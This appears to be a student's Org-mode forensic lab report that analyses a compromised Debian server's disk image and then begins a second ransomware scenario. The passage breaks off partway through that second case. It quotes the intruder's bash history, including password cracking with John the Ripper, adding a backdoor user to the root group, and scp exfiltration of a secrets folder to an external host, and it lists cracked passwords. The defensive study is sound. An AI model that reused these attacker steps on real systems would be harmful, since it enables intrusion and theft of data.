    /images/sda1/var/log/auth.log:19:Sep 10 03:59:26 yoyodyne sshd[2225]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:20:Sep 10 03:59:42 yoyodyne sshd[2227]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:22:Sep 10 03:59:47 yoyodyne sshd[2227]: Failed password for mike from 193.252.122.103 port 57719 ssh2
    /images/sda1/var/log/auth.log:25:Sep 10 04:00:14 yoyodyne sshd[2229]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:26:Sep 10 04:00:15 yoyodyne sshd[2229]: Accepted password for mike from 193.252.122.103 port 57720 ssh2
    /images/sda1/var/log/auth.log:32:Sep 10 04:01:09 yoyodyne sshd[2235]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:33:Sep 10 04:01:20 yoyodyne sshd[2237]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:34:Sep 10 04:01:29 yoyodyne sshd[2237]: Accepted password for fred from 193.252.122.103 port 57722 ssh2
    /images/sda1/var/log/auth.log:36:Sep 10 04:01:48 yoyodyne sshd[2235]: Accepted password for root from 193.252.122.103 port 57721 ssh2
    /images/sda1/var/log/auth.log:40:Sep 10 04:03:21 yoyodyne sshd[2251]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:41:Sep 10 04:03:26 yoyodyne sshd[2251]: Accepted password for jane from 193.252.122.103 port 57726 ssh2
    /images/sda1/var/log/auth.log:45:Sep 10 04:04:08 yoyodyne sshd[2258]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:46:Sep 10 04:04:11 yoyodyne sshd[2258]: Accepted password for mike from 193.252.122.103 port 34667 ssh2
    /images/sda1/var/log/auth.log:55:Sep 10 04:08:21 yoyodyne sshd[2280]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:56:Sep 10 04:08:23 yoyodyne sshd[2280]: Accepted password for mike from 193.252.122.103 port 34672 ssh2
    /images/sda1/var/log/auth.log:60:Sep 10 04:17:24 yoyodyne sshd[2626]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:61:Sep 10 04:17:31 yoyodyne sshd[2626]: Accepted password for jane from 193.252.122.103 port 55072 ssh2
    /images/sda1/var/log/auth.log:63:Sep 10 04:18:36 yoyodyne sshd[2635]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:64:Sep 10 04:18:40 yoyodyne sshd[2635]: Accepted password for root from 193.252.122.103 port 55075 ssh2
    #+END_SRC

*** Motd

    Look at the welcome SSH message

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/motd
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    Linux yoyodyne 2.2.20-idepci #1 Sat Apr 20 12:45:19 EST 2002 i686 unknown

    Most of the programs included with the Debian GNU/Linux system are
    freely redistributable; the exact distribution terms for each program
    are described in the individual files in /usr/share/doc/*/copyright

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    ---------------------------------------------------------------------
		     NOTICE AND CONSENT LOG-ON BANNER

    This is a YOYODYNE DEFENSE computer system.  This computer system,
    including all related equipment, networks and network devices
    (specifically including internet access), are provided only for
    authorized YOYODYNE use.  YOYODYNE computer systems may be monitored for
    all lawful purposes, including to ensure that their use is authorized,
    for management of the system, to facilitate protection against
    unauthorized access, and to verify security procedures, survivability
    and operational security.  Monitoring includes active attacks by
    authorized YOYODYNE entities to test or verify the security of this
    system.  During monitoring, information may be examined, recorded,
    copied and used for authorized purposes.  All information, including
    personal information, placed on or sent over this system may be
    monitored.  Use of this YOYODYNE computer system, authorized or
    unauthorized, constitutes consent to monitoring of this system.
    Unauthorized use may subject you to criminal prosecution.  Evidence of
    unauthorized use collected during monitoring may be used for
    administrative, criminal or other adverse action.  use of this system
    constitutes consent to monitoring for these purposes.
    ---------------------------------------------------------------------
    #+END_SRC

*** John The Ripper
    <<johntheripper>>

    !This is done on my local computer!

    I downloaded the *passwd* file from the system to my local
    computer and executed =john= on the file.

    #+CAPTION: Results
    #+BEGIN_SRC text
      password1        (mike)
      password         (guest)
      tuesday2         (root)
      baseball8        (fred)
      cars1            (john)
      2345b            (bill)
    #+END_SRC

    As we can see the user *mike* have a very week password. This
    would not take long to find with a standard dictionary attack.
    I didnt run =john= long enought to get *Freds* password.

*** Check for rootkits
    <<chkrootkit>>

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd /images/chkrootkit-0.47
      sudo ./chkrootkit -r /images/sda1/
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    ROOTDIR is `/images/sda1/'
    Checking `amd'... not found
    Checking `basename'... not infected
    Checking `biff'... not infected
    Checking `chfn'... not infected
    Checking `chsh'... not infected
    Checking `cron'... not infected
    Checking `crontab'... not infected
    Checking `date'... not infected
    Checking `du'... not infected
    Checking `dirname'... not infected
    Checking `echo'... not infected
    Checking `egrep'... not infected
    Checking `env'... not infected
    Checking `find'... not infected
    Checking `fingerd'... not found
    Checking `gpm'... not found
    Checking `grep'... not infected
    Checking `hdparm'... not found
    Checking `su'... not infected
    Checking `ifconfig'... not infected
    Checking `inetd'... not infected
    Checking `inetdconf'... not infected
    Checking `identd'... not found
    Checking `init'... not infected
    Checking `killall'... not infected
    Checking `ldsopreload'... not infected
    Checking `login'... not infected
    Checking `ls'... not infected
    Checking `lsof'... not infected
    Checking `mail'... not infected
    Checking `mingetty'... not found
    Checking `netstat'... not infected
    Checking `named'... not found
    Checking `passwd'... not infected
    Checking `pidof'... not infected
    Checking `pop2'... not found
    Checking `pop3'... not found
    Checking `ps'... not infected
    Checking `pstree'... not infected
    Checking `rpcinfo'... not infected
    Checking `rlogind'... not found
    Checking `rshd'... not found
    Checking `slogin'... not infected
    Checking `sendmail'... not infected
    Checking `sshd'... not infected
    Checking `syslogd'... not infected
    Checking `tar'... not infected
    Checking `tcpd'... not infected
    Checking `tcpdump'... not infected
    Checking `top'... not infected
    Checking `telnetd'... not found
    Checking `timed'... not found
    Checking `traceroute'... not found
    Checking `vdir'... not infected
    Checking `w'... not infected
    Checking `write'... not infected
    Checking `aliens'... no suspect files
    Searching for sniffer's logs, it may take a while... nothing found
    Searching for HiDrootkit's default dir... nothing found
    Searching for t0rn's default files and dirs... nothing found
    Searching for t0rn's v8 defaults... nothing found
    Searching for Lion Worm default files and dirs... nothing found
    Searching for RSHA's default files and dir... nothing found
    Searching for RH-Sharpe's default files... nothing found
    Searching for Ambient's rootkit (ark) default files and dirs... nothing found
    Searching for suspicious files and dirs, it may take a while... nothing found
    Searching for LPD Worm files and dirs... nothing found
    Searching for Ramen Worm files and dirs... nothing found
    Searching for Maniac files and dirs... nothing found
    Searching for RK17 files and dirs... nothing found
    Searching for Ducoci rootkit... nothing found
    Searching for Adore Worm... nothing found
    Searching for ShitC Worm... nothing found
    Searching for Omega Worm... nothing found
    Searching for Sadmind/IIS Worm... nothing found
    Searching for MonKit... nothing found
    Searching for Showtee... nothing found
    Searching for OpticKit... nothing found
    Searching for T.R.K... nothing found
    Searching for Mithra... nothing found
    Searching for OBSD rk v1... nothing found
    Searching for LOC rootkit... nothing found
    Searching for Romanian rootkit... nothing found
    Searching for Suckit rootkit... nothing found
    Searching for Volc rootkit... nothing found
    Searching for Gold2 rootkit... nothing found
    Searching for TC2 Worm default files and dirs... nothing found
    Searching for Anonoying rootkit default files and dirs... nothing found
    Searching for ZK rootkit default files and dirs... nothing found
    Searching for ShKit rootkit default files and dirs... nothing found
    Searching for AjaKit rootkit default files and dirs... nothing found
    Searching for zaRwT rootkit default files and dirs... nothing found
    Searching for Madalin rootkit default files... nothing found
    Searching for Fu rootkit default files... nothing found
    Searching for ESRK rootkit default files... nothing found
    Searching for rootedoor... nothing found
    Searching for ENYELKM rootkit default files... nothing found
    Searching for anomalies in shell history files... nothing found
    Checking `asp'... not infected
    Checking `bindshell'... not tested
    Checking `lkm'... chkproc: not tested
    Checking `rexedcs'... not found
    Checking `sniffer'... not tested
    Checking `w55808'... not infected
    Checking `wted'... chkwtmp: nothing deleted
    Checking `scalper'... not infected
    Checking `slapper'... not infected
    Checking `z2'... chklastlog: nothing deleted
    Checking `chkutmp'... chkutmp: nothing deleted
    #+END_SRC

*** Search for deleted files on Ext2.
    <<deletedfiles>>

    Searching for deleted files on a Ext2 disk.

    #+CAPTION: Commands (Need to be executed in a shell)
    #+BEGIN_SRC sh
      sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
      e2undel 0.82
      Trying to recover files on /dev/loop0, saving them on /images/recovered

      /dev/loop0 opened for read-only access
      /dev/loop0 was not cleanly unmounted.
      Do you want wo continue (y/n)? 182784 inodes (161628 free)
      365470 blocks of 4096 bytes (313998 free)
      last mounted on Tue May 13 15:39:02 2008
      no entries for /dev/loop0 in log file
      searching for deleted inodes on /dev/loop0:
      182784 inodes scanned, 194 deleted files found

         user name |  < 12 h |  < 48 h |   < 7 d |  < 30 d |   < 1 y |   older
      -------------+---------+---------+---------+---------+---------+--------
              root |       0 |       0 |      11 |       0 |       0 |       0
              1002 |       0 |       0 |     183 |       0 |       0 |       0
    #+END_SRC

*** Look for tmp files

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      ls -lRa /images/sda1/tmp
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/tmp:
    total 8
    drwxrwxrwt  2 root root 4096 2007-09-10 04:22 .
    drwxr-xr-x 21 root root 4096 2007-09-10 03:07 ..
    #+END_SRC

** Report findings

   Mikes account got compromissed via SSH at <2007-09-10 Mon 04:00:15>

   #+CAPTION: Commands
   #+BEGIN_SRC sh
     sudo sed -n '26p;27p' /images/sda1/var/log/auth.log
     #sudo cat -n /images/sda1/var/log/auth.log
   #+END_SRC

   #+CAPTION: Results
   #+BEGIN_SRC text
   Sep 10 04:00:15 yoyodyne sshd[2229]: Accepted password for mike from 193.252.122.103 port 57720 ssh2
   Sep 10 04:00:15 yoyodyne PAM_unix[2231]: (ssh) session opened for user mike by (uid=1002)
   #+END_SRC

   The reason why *mikes* account got compromised was because of the
   simple password. See [[johntheripper]] for more info.

   From Mikes account the cracker downloaded John The Ripper on the
   system and cracked the passwords for all of the users on the
   system. And then escalated priviledges to root.

   #+CAPTION: Commands
   #+BEGIN_SRC sh
     sudo sed -n '13p;28p;30p;37,39p;53,54p' /images/sda1/home/mike/.bash_history
   #+END_SRC

   #+CAPTION: Results
   #+BEGIN_SRC text
    cp /etc/passwd calendar.txt
    lynx http://www.openwall.com/john/f/john-1.7.2.tar.gz
    tar -xvzf john-1.7.2.tar.gz
    make
    make | less
    make linux-x86-mmx
    ./john calendar.txt
    su -
   #+END_SRC

   When the cracker got hold of the root account she created a new
   user on the system. And logged in as that user.

   #+CAPTION: Commands
   #+BEGIN_SRC sh
     sudo sed -n '65,70p' /images/sda1/root/.bash_history
   #+END_SRC

   #+CAPTION: Results
   #+BEGIN_SRC text
   adduser jake
   cat /etc/group
   vi /etc/group
   ssh jake@localhost
   whoami
   rm -rf ~mike/john-1.7.2*
   #+END_SRC

   The user Jake was added to the root group. That user would then
   get full system permissions.

   #+CAPTION: Commands
   #+BEGIN_SRC sh
     sudo head -n 1 /images/sda1/etc/group
   #+END_SRC

   #+CAPTION: Results
   #+BEGIN_SRC text
   root:*:0:jake
   #+END_SRC

   The new user jake was create at 04:21:05. And the cracker loggin to
   that account at 04:23:15. The login was made with /ssh/ from
   localhost.

   #+CAPTION: Commands
   #+BEGIN_SRC sh
     sudo sed -n '72,76p;79,81p' /images/sda1/var/log/auth.log
   #+END_SRC

   #+CAPTION: Results
   #+BEGIN_SRC text
   Sep 10 04:21:05 yoyodyne groupadd[2654]: new group: name=jake, gid=1006
   Sep 10 04:21:05 yoyodyne useradd[2655]: new user: name=jake, uid=1006, gid=1006, home=/home/jake, shell=/bin/bash
   Sep 10 04:21:21 yoyodyne PAM_unix[2658]: Password for jake was changed
   Sep 10 04:21:51 yoyodyne chfn[2659]: changed user `jake' information.
   Sep 10 04:22:17 yoyodyne chfn[2660]: changed user `jake' information.
   Sep 10 04:23:15 yoyodyne sshd[2666]: Accepted password for jake from 127.0.0.1 port 1028 ssh2
   Sep 10 04:23:15 yoyodyne PAM_unix[2668]: (ssh) session opened for user jake by (uid=1006)
   Sep 10 04:26:24 yoyodyne PAM_unix[2668]: (ssh) session closed for user jake
   #+END_SRC

   After logging in as user *jake* the cracker copied the */secrets*
   folder to her home. Transfer it to her home host and then renamed
   the folder.

   #+CAPTION: Commands
   #+BEGIN_SRC sh
     sudo cat /images/sda1/home/jake/.bash_history
   #+END_SRC

   #+CAPTION: Results
   #+BEGIN_SRC text
   cp -r /secrets .
   ls
   scp -r secrets d000d@207.92.30.41   :~/
   ls
   mv secrets .elinks
   ls
   ls -alh
   #+END_SRC

** Recommended steps before returning to production

   Set up a decent password policy for the users. A recommended way
   of doing this is with a [[http://www.openwall.com/pam/][PAM]] module from [[http://www.openwall.com/pam/][Openwall]].  Openwall is the
   author of *John The Ripper*.


   Reset all password on the system acording to the new rules.


   Remove the user *jake*.

** Time estimation

   8 hours.

** Conclusion

   Someone stole the secret info and the server was compromised. But
   if it was our suspect is hard to say. The IP that entered mikes
   account is not the same as the one belonging to our victim. But she
   could have used a jump host to do that from.

* Forensic Report Act 3: The Wealthy Individual
  :PROPERTIES:
  :results:  value code
  :author:   John Herrlin
  :email:    jh222jx@student.lnu.se
  :END:
  #+DATE: <2007-09-15 Sat>
  #+AUTHOR: John Herrlin
  #+EMAIL: jh222jx@student.lnu.se

** Executive summary

   When you got back after lunch, there was already someone in the office. You could tell
   from the tux, tails, and British accent that he was a butler, but before you could
   offer him a drink he handed you the biggest diamond-encrusted hard drive you'd ever
   seen. Now, it's a fundamental truth that money attracts crooks like Martians attract
   germs, so you weren't exactly surprised when he told you that his employer's computer
   had recently been broken into. What was surprising was the M.O. -- the crooks deleted
   the boss' files to show they were serious, and then they encrypted his swiss bank
   account access codes and held the decryption keys ransom for 1 megabucks. The boss
   needs the access codes to do business, but he doesn't want to cave in, either. At this
   point, he doesn't care about his computer, and he doesn't particularly care how they
   got in (although he'll give you some extra dough if you figure out who was
   responsible). He's just hoping that you can find a way to decrypt the codes so he
   doesn't have to pay those lowlifes. If you can do it, he'll give you a cut of the 2^20
   dollars... and that'll keep you in patty melts at Norm's for a long time. Hint: A few
   of these bank codes are really hard to find. Don't sweat it if you can't find every one
   -- 6 out of 8 is worth full marks -- but of course you'll get some extra credit if you
   collect 'em all.

** Methodology
*** Download image

    Download the act3 assignemnt and check SHA hash.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd /images
      sudo ./loadimage.sh act3.img
      sha256sum act3.img
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    Loading image. Please wait...
    Decompressing image. Please wait...
    Done.
    650acd37f813ee4083baa944a67be675052257e986a642422138998a1d14de6c  act3.img
    #+END_SRC

*** Examin the image.

    Examin the =/images/sda1= image that was loaded. The reason to do
    this is to verify the offsetsto the partitions.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      file /images/act3.img
      fdisk -lu /images/act3.img
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
      /images/act3.img: x86 boot sector, LInux i386 boot LOader; GRand
      Unified Bootloader, stage1 version 0x3, stage2 address 0x2000, stage2
      segment 0x200; partition 1: ID=0x83, starthead 1, startsector 63,
      2923767 sectors; partition 2: ID=0x82, starthead 0, startsector
      2923830, 979965 sectors; partition 3: ID=0x82, starthead 0,
      startsector 3903795, 996030 sectors, code offset 0x48

      Disk /images/act3.img: 0 MB, 0 bytes
      255 heads, 63 sectors/track, 0 cylinders, total 0 sectors
      Units = sectors of 1 * 512 = 512 bytes
      Sector size (logical/physical): 512 bytes / 512 bytes
      I/O size (minimum/optimal): 512 bytes / 512 bytes
      Disk identifier: 0x55078e84

                 Device Boot      Start         End      Blocks   Id  System
      /images/act3.img1              63     2923829     1461883+  83  Linux
      /images/act3.img2         2923830     3903794      489982+  82  Linux swap / Solaris
      /images/act3.img3         3903795     4899824      498015   82  Linux swap / Solaris
    #+END_SRC


    Here is a table with the offsets that is found on the disk.  We can
    see that there is three paritions on the disk.

    | Parition  |   Start |     Offset |
    |-----------+---------+------------|
    | act3.img1 |      63 |      32256 |
    | act3.img2 | 2923830 | 1497000960 |
    | act3.img3 | 3903795 | 1998743040 |
    #+TBLFM: $3=$2*512

*** Mount a root partition.

    Mount the first "loop0" to =/images/sda1=, this is the file system
    to examin.  This disk should be the root disk where users and
    systems is. The partition is mounted as read only.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo losetup /dev/loop0 /images/act3.img -o 32256
      sudo mount /dev/loop0 /images/sda1 -t ext2 -o ro
      df -Th | grep /images/sda1
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /dev/loop0    ext2    1.4G  483M  842M  37% /images/sda1
    #+END_SRC

*** Mount swap 1

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo losetup /dev/loop1 /images/act3.img -o 1497000960
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text

    #+END_SRC

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      file /dev/loop1
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /dev/loop1: block special
    #+END_SRC

*** Mount swap 2

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo losetup /dev/loop2 /images/act3.img -o 1998743040
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text

    #+END_SRC

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      file /dev/loop2
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC test
    /dev/loop2: block special
    #+END_SRC

*** Get operating system

    What operating system are the examining host running.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/issue
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    Ubuntu 6.06.1 LTS \n \l
    #+END_SRC

*** Get time zone

    What time zone was configured to the host.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo cat /images/sda1/etc/timezone
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    US/Pacific
    #+END_SRC

*** Look at /

    Look at the root directory of the mounted system.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      ls -la /images/sda1
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    total 74
    drwxr-xr-x 21 root root  1024 2007-09-15 11:05 .
    drwxr-xr-x  6 root root  4096 2007-09-15 10:54 ..
    drwxr-xr-x  2 root root  2048 2007-09-07 18:52 bin
    drwxr-xr-x  3 root root  1024 2007-09-07 18:55 boot
    lrwxrwxrwx  1 root root    11 2007-09-07 11:28 cdrom -> media/cdrom
    drwxr-xr-x 11 root root 29696 2007-09-07 11:39 dev
    drwxr-xr-x 57 root root  3072 2007-09-10 00:38 etc
    drwxr-xr-x  7 root root  1024 2007-09-10 00:05 home
    drwxr-xr-x  2 root root  1024 2007-09-07 11:30 initrd
    lrwxrwxrwx  1 root root    32 2007-09-07 18:55 initrd.img -> boot/initrd.img-2.6.15-29-server
    lrwxrwxrwx  1 root root    32 2007-09-07 11:35 initrd.img.old -> boot/initrd.img-2.6.15-26-server
    drwxr-xr-x 16 root root  5120 2007-09-07 18:52 lib
    drwxr-xr-x  2 root root 12288 2007-09-07 11:28 lost+found
    drwxr-xr-x  3 root root  1024 2007-09-07 11:28 media
    drwxr-xr-x  2 root root  1024 2006-08-03 03:59 mnt
    drwxr-xr-x  2 root root  1024 2007-09-07 11:30 opt
    drwxr-xr-x  2 root root  1024 2006-08-03 03:59 proc
    drwxr-xr-x  4 root root  1024 2007-09-10 00:25 root
    drwxr-xr-x  2 root root  4096 2007-09-07 18:52 sbin
    drwxr-xr-x  2 root root  1024 2007-09-07 11:30 srv
    drwxr-xr-x  2 root root  1024 2006-05-21 11:46 sys
    drwxrwxrwt  3 root root  1024 2007-09-09 22:38 tmp
    drwxr-xr-x 10 root root  1024 2007-09-07 11:30 usr
    drwxr-xr-x 13 root root  1024 2007-09-07 11:30 var
    lrwxrwxrwx  1 root root    29 2007-09-07 18:55 vmlinuz -> boot/vmlinuz-2.6.15-29-server
    lrwxrwxrwx  1 root root    29 2007-09-07 11:35 vmlinuz.old -> boot/vmlinuz-2.6.15-26-server
    #+END_SRC

*** Look for users

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd /images/sda1
      ls -la home/
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    total 7
    drwxr-xr-x  7 root  root 1024 2007-09-10 00:05 .
    drwxr-xr-x 21 root  root 1024 2007-09-15 11:05 ..
    drwxr-xr-x  3  1004 1004 1024 2007-09-10 00:12 chef
    drwxr-xr-x  3  1003 1003 1024 2007-09-10 00:26 gardener
    drwxr-xr-x  3  1002 1002 1024 2007-09-09 18:53 jeeves
    drwxr-xr-x  8  1001 1001 1024 2007-09-09 18:58 rich
    drwxr-xr-x  2 tuser 1000 1024 2007-09-09 16:27 ubuntu
    #+END_SRC

    How about with =passwd=?

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     cat /images/sda1/etc/passwd
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    dhcp:x:101:101::/nonexistent:/bin/false
    syslog:x:102:102::/home/syslog:/bin/false
    klog:x:103:103::/home/klog:/bin/false
    ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
    sshd:x:100:65534::/var/run/sshd:/bin/false
    rich:x:1001:1001:I. M. Rich,,,:/home/rich:/bin/bash
    jeeves:x:1002:1002:Mr. Jeeves,,,:/home/jeeves:/bin/bash
    gardener:x:1003:1003:Old Toby,,,:/home/gardener:/bin/bash
    chef:x:1004:1004:Monsieur Le Creuset,,,:/home/chef:/bin/bash
    #+END_SRC

*** Look for groups

    Look at the groups file.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/group
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    root:x:0:
    daemon:x:1:
    bin:x:2:
    sys:x:3:
    adm:x:4:ubuntu
    tty:x:5:
    disk:x:6:
    lp:x:7:
    mail:x:8:
    news:x:9:
    uucp:x:10:
    man:x:12:
    proxy:x:13:
    kmem:x:15:
    dialout:x:20:ubuntu
    fax:x:21:
    voice:x:22:
    cdrom:x:24:ubuntu
    floppy:x:25:ubuntu
    tape:x:26:
    sudo:x:27:
    audio:x:29:ubuntu
    dip:x:30:ubuntu
    www-data:x:33:
    backup:x:34:
    operator:x:37:
    list:x:38:
    irc:x:39:
    src:x:40:
    gnats:x:41:
    shadow:x:42:
    utmp:x:43:
    video:x:44:ubuntu
    sasl:x:45:
    plugdev:x:46:ubuntu
    staff:x:50:
    games:x:60:
    users:x:100:
    nogroup:x:65534:
    dhcp:x:101:
    syslog:x:102:
    klog:x:103:
    crontab:x:104:
    ssh:x:105:
    ubuntu:x:1000:
    lpadmin:x:106:ubuntu
    scanner:x:107:ubuntu
    admin:x:108:ubuntu
    rich:x:1001:
    jeeves:x:1002:
    gardener:x:1003:
    chef:x:1004:
    #+END_SRC

*** Look at lastlog

    Lastlog is a logfile that shows the last time a user logged in.

    #+CAPTION: Commands (Needs to be executed in a shell)
    #+BEGIN_SRC sh
      sudo chroot /images/sda1/
      lastlog
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text

    #+END_SRC

    Lastlog file is empty

*** Hosts

    Look at hosts file.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/hosts
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    127.0.0.1	localhost
    127.0.1.1	ubuntu.tastytronic.net	ubuntu

    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ff02::3 ip6-allhosts
    #+END_SRC

*** Rich account

    Look at the users home dirs.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/home/rich -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/rich
    /images/sda1/home/rich/.bashrc
    /images/sda1/home/rich/.bash_profile
    /images/sda1/home/rich/.bash_logout
    /images/sda1/home/rich/.extrtmtc
    /images/sda1/home/rich/.extrtmtc/key4
    /images/sda1/home/rich/swiss_keys
    /images/sda1/home/rich/swiss_keys/swisskey3.gpg
    /images/sda1/home/rich/swiss_keys/swisskey4.gpg
    /images/sda1/home/rich/swiss_keys/swisskey5.gpg
    /images/sda1/home/rich/swiss_keys/swisskey6.gpg
    /images/sda1/home/rich/swiss_keys/swisskey7.gpg
    /images/sda1/home/rich/swiss_keys/swisskey1.gpg
    /images/sda1/home/rich/swiss_keys/swisskey2.gpg
    /images/sda1/home/rich/swiss_keys/swisskey8.gpg
    /images/sda1/home/rich/.mozilla
    /images/sda1/home/rich/.mozilla/cache
    /images/sda1/home/rich/.thunderbird
    /images/sda1/home/rich/.games
    /images/sda1/home/rich/.viminfo
    /images/sda1/home/rich/.gnupg
    /images/sda1/home/rich/.gnupg/gpg.conf
    /images/sda1/home/rich/.gnupg/random_seed
    /images/sda1/home/rich/.gnupg/pubring.gpg
    /images/sda1/home/rich/.lesshst
    #+END_SRC

    Rich have no bash history file

*** Jeeves account

    Look at the users home dirs.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/home/jeeves -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/jeeves
    /images/sda1/home/jeeves/.bashrc
    /images/sda1/home/jeeves/.bash_profile
    /images/sda1/home/jeeves/.bash_logout
    /images/sda1/home/jeeves/housekeepers
    /images/sda1/home/jeeves/.bash_history
    #+END_SRC

    Look at jeeves's bash history

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/jeeves/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    w
    watch "w | grep -v jeeves"
    w
    su rich
    cat /home/rich/.bash_history
    su -
    #+END_SRC

*** Gardener account

    Look more into Gardener account.

    Look at files found in Gardener home dir.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo find /images/sda1/home/gardener -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/gardener
    /images/sda1/home/gardener/.bashrc
    /images/sda1/home/gardener/.bash_profile
    /images/sda1/home/gardener/.bash_logout
    /images/sda1/home/gardener/.bash_history
    /images/sda1/home/gardener/.gnupg
    /images/sda1/home/gardener/.gnupg/gpg.conf
    /images/sda1/home/gardener/.gnupg/secring.gpg
    /images/sda1/home/gardener/.gnupg/pubring.gpg
    #+END_SRC

    Gardener bash history.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/gardener/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    top
    lsof
    ps aux
    ls /home/
    gpg
    cat .bash_history
    gpg
    cat .bash_history
    #+END_SRC

*** Chef account

    Look at the Chef home dir.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/home/chef -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/chef
    /images/sda1/home/chef/.bashrc
    /images/sda1/home/chef/.bash_profile
    /images/sda1/home/chef/.bash_logout
    /images/sda1/home/chef/recipes
    /images/sda1/home/chef/recipes/bread
    /images/sda1/home/chef/.bash_history
    #+END_SRC

    Look at chef's bash history

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/chef/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    mkdir recipes
    cd recipes/
    ls
    echo "best bread recipe:" > bread
    #+END_SRC

*** ubuntu account

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/home/ubuntu -maxdepth 2 -name "*"
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    /images/sda1/home/ubuntu
    /images/sda1/home/ubuntu/.bashrc
    /images/sda1/home/ubuntu/.bash_profile
    /images/sda1/home/ubuntu/.bash_logout
    /images/sda1/home/ubuntu/.sudo_as_admin_successful
    /images/sda1/home/ubuntu/.viminfo
    /images/sda1/home/ubuntu/.bash_history
    #+END_SRC

    #+BEGIN_SRC sh
